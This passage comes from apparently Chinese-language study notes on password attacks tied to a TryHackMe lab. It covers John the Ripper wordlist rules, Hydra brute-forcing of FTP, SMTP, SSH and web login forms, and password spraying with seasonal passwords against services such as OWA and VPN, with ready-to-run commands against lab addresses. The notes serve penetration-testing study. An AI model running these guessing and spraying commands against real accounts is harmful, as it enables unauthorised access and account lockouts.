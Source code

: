             # 创建一个包含单词 "password" 的文件 /tmp/single.lst
            echo "password" > /tmp/single.lst
            
            # 使用自定义规则 THM-Password-Attacks 生成新词表并输出
            john --wordlist=/tmp/single.lst --rules=THM-Password-Attacks --stdout
            # 输出示例: !password0, @password0, #password0, $password0, !password1, ... , $password9
            ```
            

#### 在线密码攻击 (Online Password Attacks)

直接针对网络服务的登录认证进行猜测和喷洒。

- **目标**: 尝试登录各种网络服务，如 SSH, RDP, SMB, FTP, SMTP, POP3, Web 应用登录页面 (HTTP/HTTPS), 数据库服务等。
- **风险**: 账户锁定和检测是主要挑战。
- **常用工具**: `Hydra`, `Medusa`, `Ncrack`, `Metasploit` (auxiliary modules), 各种针对特定服务的工具。
- **`Hydra` 示例**: 一个功能强大的在线密码猜测工具，支持多种协议。
    - **基本语法**: `hydra -l <user> | -L <userlist> -p <pass> | -P <passlist> <protocol>://<target> [options]`
    - **FTP**: `hydra -l ftp_user -P /path/to/passlist.txt ftp://10.10.x.x` (-l 单用户名, -L 用户名列表; -p 单密码, -P 密码列表)
    - **SMTP**: `hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v` (-v 显示详细信息)
    - **SSH**: `hydra -L usernames-list.txt -P /path/to/wordlist.txt ssh://10.10.x.x -v` (可能需要 `-t <tasks>` 限制并行连接数)
    - **HTTP 登录页面**: 需要分析登录请求（GET 或 POST）的参数和成功/失败条件。
        - **工具**: 浏览器开发者工具, Burp Suite 等 Web 代理。
        - **Hydra 语法**: `http-get-form "/path/to/login_page:param1=^USER^&param2=^PASS^:S=success_condition"`
        - **示例**: `hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f` (^USER^ 注入用户名, ^PASS^ 注入密码, S= 成功标识, F= 失败标识, -f 找到即停止)

##### 密码喷洒攻击 (Password Spraying Attack)

一种特殊的在线攻击策略，旨在绕过账户锁定。

- **原理**: 使用**一个**或少数几个最常见的弱密码，尝试登录**多个**不同的用户名。由于对每个用户只尝试少量密码，不容易触发针对单个用户的锁定策略。
- **典型场景**: 针对具有统一密码策略、可能存在大量使用弱密码用户的组织。
- **常见喷洒密码模式**: `SeasonYear!`, `MonthYear@`, `CompanyName123` 等。
- **目标服务**: 常用于攻击 Outlook Web Access (OWA), Office 365, VPN, RDP, SMB, SSH 等。
- **工具与示例**:
    - **SSH**: 使用 `hydra`，但 `-L` 指定用户名列表，`-p` 指定单个喷洒密码。
        
        Bash
        
        ```
        hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
        ```
        
    - **RDP**: 使用 `RDPassSpray` 等专用工具。
        